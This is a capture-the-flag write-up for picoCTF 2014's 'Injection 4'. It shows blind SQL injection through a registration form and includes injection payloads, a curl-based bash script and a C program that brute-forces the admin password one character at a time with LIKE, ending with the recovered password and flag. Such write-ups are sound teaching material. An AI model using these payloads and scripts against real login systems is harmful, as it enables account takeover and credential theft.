Zach: Injection 4 (150 pts)
    
So by just quick inspection of the login script, it’s really clear that everything is SQL escaped, and so there are no real hacks available. Now with the registration feature, my first thought was a hack I’ve done before based on registering a user with the username admin followed by spaces past the varchar max length in the database, with a trailing character. This will be added to the database as just admin, with the password I instituted at registration. It will collide with the original admin on the database. However, if the user doesn’t exist, it echo’s that registration is disabled, so this is impossible.

So since there is no way to hack into the login script, it looks like we need to try and brute force the password. This can be done easily with the registration script because it’s not escaped. We can inject a query that instead of checking for a username, it will check for a password for the user admin, and the page will respond with “Someone has already registered {username}” if it finds one or more matches. This would look like the following in the username field:
```
admin’ AND password=’{PASSWORD_GUESS}’ OR ‘1’=’2
```

Of course, brute forcing this would take ages, but thankfully, SQL has a LIKE operator. This looks like the following:
```
admin’ AND password LIKE ‘{FRONT_OF_PASS}%” OR ‘1’=’2
```

In this operator, the % sign matches any number of characters in it’s place. This allows us to brute force every possible first character until we find the right one. Then every second character, and etc. until we have the whole password to login with. I used curl in a shell script to do this. Then I called the shell script with a C code that did the iteration of different password. Both codes are included below:
    

test_pass.sh:
```
#!/bin/bash
if [[ "$(curl -s -F "username=admin' AND password LIKE '$1%' OR '1'='2" http://web2014.picoctf.com/injection4/register.php)" =~ "Someone" ]]; then
	exit 1;
else
	exit 0;
fi
```

get_pass.c:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

const char* format = "./test_pass.sh '%s'";

int main() {
        char pass[1024], cmd[1080], *p = pass;
        int complete;
        while(1) {
                complete = 0;
                *p = 32;
                *(p+1) = '\0';
                do {
                        if(*p == '%' || *p == '\'') ++(*p);
                        sprintf(cmd, format, pass);
                        //printf("%s, %s, %d, %d\n", cmd, pass, *p, pass[p-pass]);
                        if( system(cmd) ) {
                                complete = 1;
                                break;
                        }

                } while (++(*p) > 0);
                if(complete) {
                        printf("\"%s\"\n", pass);
                } else {
                        printf("Finished.\n");
                        *p = '\0';
                        break;
                }
                ++p;
        }
        return 0;
}
```

The shellcode checks the output of curl to be approximately equal (=~) to “Someone”. If this is true, it exits with 1, else with 0. The c code creates space for the password and the cmd to execute on the shell, with enough room for 1023 characters (one extra byte for the null terminating character). Then, the pointer in the password char[] is iterated through all possible characters until one matches, and then goes to the next character. After no more characters will match, the password has been found and the code terminates. Because it takes some time, the code outputs it’s progress every time a new character is determined. The characters ‘\’’ and ‘%’ are excluded because % has special meaning for SQL (discussed above), and the single quote would terminate the string.

The password obtained from this script: `YOULLNEVERGUESSTHISPASSWORD`

If you login to the site as admin with that password, you receive:
    `whereof_one_cannot_speak_thereof_one_must_be_silent`
